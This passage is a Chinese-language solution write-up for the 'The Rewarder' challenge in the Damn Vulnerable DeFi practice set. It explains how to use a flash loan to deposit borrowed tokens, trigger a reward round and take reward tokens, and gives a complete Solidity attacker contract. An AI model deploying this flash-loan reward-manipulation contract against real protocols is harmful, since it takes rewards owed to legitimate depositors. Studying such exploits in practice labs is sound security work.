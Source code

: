 
### 题解

假设没有任何额外的用户操作，在下一轮次分配奖励的时候，users数组中的四位用户将会继续评分奖励，每个用户分到的rewardToken为总数的1/4

为了达到测试脚本的期望值，需要player参与rewardToken的分配，可以通过闪电贷借出liquidityToken，deposit到TheRewarderPool，此时可以触发新一轮的rewardToken分配，再通过withdraw赎回liquidityToken并返还给FlashLoanerPool

攻击合约代码如下：

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import {TheRewarderPool, RewardToken} from "../../src/the-rewarder/TheRewarderPool.sol";
import "../../src/the-rewarder/FlashLoanerPool.sol";
import "../../src/DamnValuableToken.sol";

contract Attacker {
    FlashLoanerPool flashloan;
    TheRewarderPool pool;
    DamnValuableToken dvt;
    RewardToken reward;
    address internal owner;

    constructor(address _flashloan,address _pool,address _dvt,address _reward){
        flashloan = FlashLoanerPool(_flashloan);
        pool = TheRewarderPool(_pool);
        dvt = DamnValuableToken(_dvt);
        reward = RewardToken(_reward);
        owner = msg.sender;
    }

    function attack(uint256 amount) external {
        flashloan.flashLoan(amount);
    }

    function receiveFlashLoan(uint256 amount) external{
        dvt.approve(address(pool), amount);
        // deposit liquidity token get reward token
        pool.deposit(amount);
        // withdraw liquidity token
        pool.withdraw(amount);
        // repay to flashloan
        dvt.transfer(address(flashloan), amount);
        reward.transfer(owner, reward.balanceOf(address(this)));
    }
}
```

## Challenge 5 - Side Entrance
